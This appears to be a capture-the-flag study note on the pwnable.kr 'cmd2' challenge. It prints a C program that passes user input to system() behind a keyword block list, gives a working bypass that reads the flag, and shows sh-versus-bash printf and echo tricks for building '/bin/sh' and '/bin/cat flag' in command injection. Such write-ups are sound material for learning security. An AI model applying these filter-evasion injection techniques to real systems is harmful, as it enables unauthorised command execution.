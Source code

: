 ```yaml
---
sort : 1
---
```



# Bash & Sh

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```


EX ::
	* if any of {"=", "PATH", "export", "/", "`", "flag"} in command  --> exit(0)
	* All environment varibales are deleted 
	* PATH=/no_command_execution_until_you_become_a_hacker
	* system(argv[1])


https://n1ght-w0lf.github.io/binary%20exploitation/cmd2/

https://github.com/victor-li/pwnable.kr-write-ups/blob/master/cmd2.md

https://medium.com/@clong/pwnable-kr-cmd1-cmd2-writeups-e6980fa8daca





```
$ ./cmd2 “command -p cat \”f\”\”l\”\”a\”\”g\””
command -p cat “f””l””a””g”
FuN_w1th_5h3ll_v4riabl3s_haha
```













## sh vs. bash 

bash is sh, but with more features and better syntax.

`sh` is implemented by programs like `dash`, `kash`, and original `Bourne Shell`


```note
It is not possible to use `echo` portably across all POSIX systems unless both -n (as the first argument) and escape sequences are omitted. The `printf` utility can be used portably to emulate any of the traditional behaviors of the echo
```


> Ex

sh : 
```sh 
$ echo $'\x2f\x62\x69\x6e\x2f\x73\x68'
#	\x2f\x62\x69\x6e\x2f\x73\x68

$ echo -e \\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68
#	-e \x2f\x62\x69\x6e\x2f\x73\x68

$ printf "%b" '\x2f\x62\x69\x6e\x2f\x73\x68'
#	\x2f\x62\x69\x6e\x2f\x73\x68
```

bash :
```bash
$ echo $'\x2f\x62\x69\x6e\x2f\x73\x68'
#	/bin/sh

$ echo -e \\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68
#	/bin/sh

$ printf "%b" '\x2f\x62\x69\x6e\x2f\x73\x68'
#	/bin/sh
```

```tip
some times using echo in some OS command injection attacks - through for example `system()` function in C - won't work !! 

because system() forks a new process and run the passed command inside `sh` environment, `execl("/bin/sh", "sh", "-c", command, (char *) NULL);`
```

sh :
```sh              
$ printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag"
#	/bin/cat flag$														finally !! 
```

bash :
```bash
printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag"
#	\57bin\57cat flag                                                                                                                    
```
















# rand()

The `rand()` function returns a `pseudo-random` integer in the range `0` to `RAND_MAX` inclusive (i.e., the mathematical range [0, RAND_MAX]).

The `srand()` function sets its argument as the `seed` for a new `sequence` of pseudo-random integers to be returned by `rand()`.  These sequences are `repeatable` by calling srand() with the same seed value.

If `no seed value is provided`, the rand() function is automatically seeded with a value of `1`.